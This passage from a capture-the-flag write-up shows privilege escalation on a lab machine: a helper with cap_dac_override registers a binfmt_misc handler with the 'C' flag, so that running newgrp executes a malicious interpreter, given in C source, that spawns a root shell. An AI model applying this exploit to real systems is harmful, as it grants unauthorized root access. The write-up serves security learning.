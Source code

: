 ```makefile

clean:
    rm -f -- $(TARGETS)
```

This should allow this binary to bypass permissions check in the file system without `root`. Looks like the objective of this file is to just register a new binary type, in this case the Emuemu roms, to the kernel. [More information](https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/binfmt-misc.rst){:target="_blank"}

According to the string used: `:EMUEMU:M::\x13\x37OSTRICH\x00ROM\x00::/usr/bin/emuemu:`, when the system try to execute a file that has `\x13\x37OSTRICH\x00ROM\x00` as magic bits it will pass the file as first argument to `/usr/bin/emuemu` and execute that instead. We can execute the installed binary `/usr/lib/emuemu/reg_helper` to add new associations, remember that the binary has the `cap_dac_override` capability so no need of `root` privileges.

My idea here is to create an association that will execute a SUID binary like `/usr/bin/newgrp` through a malicious interpreter. According to the documentation adding the flag `C` to the association configuration string will execute the interpreter as `root` in case of a SUID binary, this is called a shadow SUID.

Using a hexadecimal editor, I took the first 52 bytes of the `/usr/bin/newgrp` binary and used them as the byte sequence my association is matching for. Why 52 bytes? Well I took all the bytes needed to find difference between `/usr/bin/newgrp` and the other binaries to avoid matching all of them.

Only one  thing left, creating the interpreter and the association:

```c
// Compiled with gcc mal.c -o mal
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    // Even though the interpreter runs as root the effective UID used is from the user running the binary. This makes sure the effective UID is what we want
    setuid(0);
    setgid(0);

    system("/bin/bash -p");
    return 1;
}
```

```
echo ':MAL:M::\x7f\x45\x4c\x46\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x3e\x00\x01\x00\x00\x00\xd0\x47::/home/dev/emuemu/mal:C' | /usr/lib/emuemu/reg_helper
```

Everything is ready, when we execute the `newgrp` binary a root shell is spawned as expected!

```bash
dev@retired:~/emuemu$ newgrp 
root@retired:~/emuemu#
```

The `root` flag is under:

```
/root/root.txt
```
